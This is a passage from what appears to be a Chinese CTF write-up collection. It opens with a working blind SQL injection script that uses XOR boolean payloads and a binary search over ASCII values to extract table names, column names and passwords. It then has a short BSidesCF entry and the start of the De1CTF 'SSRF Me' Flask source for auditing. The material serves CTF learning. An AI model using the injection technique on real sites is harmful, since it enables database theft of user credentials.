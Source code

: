 ```python
        #表名
        #temp["id"] = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1" %(i,mid)
        #字段名
        #temp["id"] = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1" %(i,mid)
        #内容
        #temp["id"] = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" %(i,mid)
        r = requests.get(url,params=temp)
        time.sleep(0.04)
        print(low,high,mid,":")
        if "Click" in r.text:
            low = mid+1
        else:
            high = mid
        mid =(low+high)//2
    if(mid ==32 or mid ==127):
        break
    column +=chr(mid)
    print(column)
    
print("All:" ,column)
```



## [BSidesCF 2019]Futurella

直接在源代码中看到了flag

![image-20231216015155871](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231216015155871.png)



## [De1CTF 2019]SSRF Me

###### python代码审计 

[[De1CTF 2019\]SSRF Me 1-CSDN博客](https://blog.csdn.net/rfrder/article/details/109680676)

```python
#! /usr/bin/env python
# #encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')
app = Flask(__name__)
secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
```